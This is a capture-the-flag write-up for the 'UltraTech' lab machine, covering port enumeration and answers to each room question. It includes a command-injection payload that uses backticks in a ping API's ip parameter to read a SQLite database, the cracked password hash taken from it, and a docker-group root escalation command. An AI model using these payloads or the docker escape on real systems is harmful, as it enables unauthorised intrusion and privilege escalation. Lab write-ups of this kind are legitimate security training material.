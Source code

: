 # ULTRATECH

## BASIC INFO
```
export IP=10.10.157.172
open port:
	21	ftp
	22	ssh
	8081	blackice-icecap node.js
	31331	apache 2.4.29
```

## IT'S ENUMERATION TIME

> - **Which software is using the port 8081?**
>> Node.js

> - **Which other non-standard port is used?**
>> 31331

> - **Which software using this port?**
>> Apache

> - **Which GNU/Linux distribution seems to be used?**
>> Ubuntu

> - **The software using the port 8080 is a REST api, how many of its routes are used by the web application?**
>> 2


## LET THE FUN BEGIN

> - **There is a database lying around, what is its filename?**
>> utech.db.sqlite

Go to robots.txt on port 31331. One of the disallowed entry is partner.html. Seems like a login page... Look at the source found that it is posting to some javascript? Checking out that script shows us that it is connected to the api on port 8081. Navigate to the url `http://$IP:8081/ping?ip=10.10.111.111` shows us some result which looks exatly like the output from ping command. Try with some other commands such as ls?

```
http://10.10.157.172:8081/ping?ip=`ls`
utech.db.sqlite
```
> - **What is the first user's password hash?**
>> f357a0c52799563c7c7b76c1e7543a32

Same url just change the command to `cat utech.db.sqlite`.

> - **What is the password associated with this hash?**
>> n100906

crackstation can be useful here.

## THE ROOT OF ALL EVIL
> - **What are the first 9 characters of the root user's private SSH key?**
>> MIIEogIBA

Running `id` shows that we are in docker group. That's very dangerous...
`docker run -v /:/mnt --rm -it bash chroot /mnt sh` and now we're root. 